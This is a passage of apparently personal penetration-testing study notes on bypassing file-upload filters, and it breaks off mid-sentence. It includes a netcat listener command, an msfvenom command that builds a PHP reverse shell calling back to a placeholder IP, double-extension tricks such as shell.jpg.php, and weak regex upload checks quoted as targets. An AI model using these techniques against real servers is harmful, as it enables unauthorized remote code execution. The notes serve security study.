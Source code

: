 

PHP Reverse Shell Repository : https://github.com/pentestmonkey/php-reverse-shell

> While running the above reverse shell, we need to start the Netcat Listener : `nc -lvnp OUR_PORT`

Generating Custom Reverse Shell : `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

## Client Side Validation
Use Burp Suite, on the front end, add a PNG File and then intercept this request and try to change the filename and add the payload in the body.

![[Pasted image 20250416175605.png]]

We can also remove the checkFile function present in the HTML, that would remove the Client Side Validation.

## Blacklisting Filters
**Fuzzing Extensions :**  To know what all files extensions are allowed we can simply use the BurpSuite and put a wordlist for it provided by Seclist.
![[Pasted image 20250416180959.png]]

## Whitelisting Filters
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

If a web-server is using Filters like this, then we know here it is using Regex to check for the file type and we can surely trick the server for the file type.

## Double Extensions

The code only tests whether the file name contains an image extension; a straightforward method of passing the regex test is through `Double Extensions`. For example, if the `.jpg` extension was allowed, we can add it in our uploaded file name and still end our filename with `.php` (e.g. `shell.jpg.php`), in which case we should be able to pass the whitelist test, while still uploading a PHP script that can execute PHP code.
![[Pasted image 20250417125619.png]]

And if the Regex Pattern is something like this : 
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```
Then we need to 